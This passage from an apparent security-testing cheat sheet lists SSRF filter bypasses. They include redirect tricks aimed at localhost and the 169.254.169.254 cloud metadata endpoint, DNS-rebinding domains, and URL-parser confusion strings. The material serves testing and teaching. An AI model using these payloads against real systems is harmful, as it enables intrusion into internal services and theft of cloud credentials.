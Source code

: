 ### Bypassing Using a Redirect

1. Create a page on a whitelisted host that redirects requests to the SSRF the target URL (e.g. 192.168.0.1)
2. Launch the SSRF pointing to `vulnerable.com/index.php?url=http://redirect-server`
3. You can use response codes [HTTP 307](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/307) and [HTTP 308](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/308) in order to retain HTTP method and body after the redirection.

To perform redirects without hosting own redirect server or perform seemless redirect target fuzzing, use [Horlad/r3dir](https://github.com/Horlad/r3dir).

* Redirects to `http://localhost` with `307 Temporary Redirect` status code

    ```powershell
    https://307.r3dir.me/--to/?url=http://localhost
    ```

* Redirects to `http://169.254.169.254/latest/meta-data/` with `302 Found` status code

    ```powershell
    https://62epax5fhvj3zzmzigyoe5ipkbn7fysllvges3a.302.r3dir.me
    ```

### Bypass Using DNS Rebinding

Create a domain that change between two IPs.

* [1u.ms](http://1u.ms) - DNS rebinding utility

For example to rotate between `1.2.3.4` and `169.254-169.254`, use the following domain:

```powershell
make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
```

Verify the address with `nslookup`.

```ps1
$ nslookup make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Name:   make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Address: 1.2.3.4

$ nslookup make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Name:   make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Address: 169.254.169.254
```

### Bypass Abusing URL Parsing Discrepancy

[A New Era Of SSRF Exploiting URL Parser In Trending Programming Languages - Research from Orange Tsai](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)

```powershell
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```
